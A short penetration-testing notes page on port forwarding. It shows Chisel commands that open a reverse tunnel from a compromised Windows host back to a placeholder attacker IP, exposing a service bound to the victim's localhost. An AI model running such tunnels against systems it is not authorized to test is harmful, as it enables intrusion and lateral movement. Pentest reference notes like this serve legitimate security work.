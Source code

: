 +++
title = "Port Forwarding"
author = ["svejk"]
tags = ["pentest", "network"]
draft = false
+++

## Port Forwarding {#port-forwarding}


### Chisel {#chisel}

Compromised windows machine -- service hosted only at 127.0.0.1 -- attacker machine is server and victim machine is client:

```shell { linenos=true, linenostart=1 }
# attacker
chisel server --socks5 --reverse -p 1234
# windows victim
chiselx86_64.exe client <attacker ip>:1234 R:9090:127.0.0.1:9090
```


## Sources {#sources}


### [twelvesec](https://github.com/twelvesec/port-forwarding?tab=readme-ov-file) {#twelvesec}
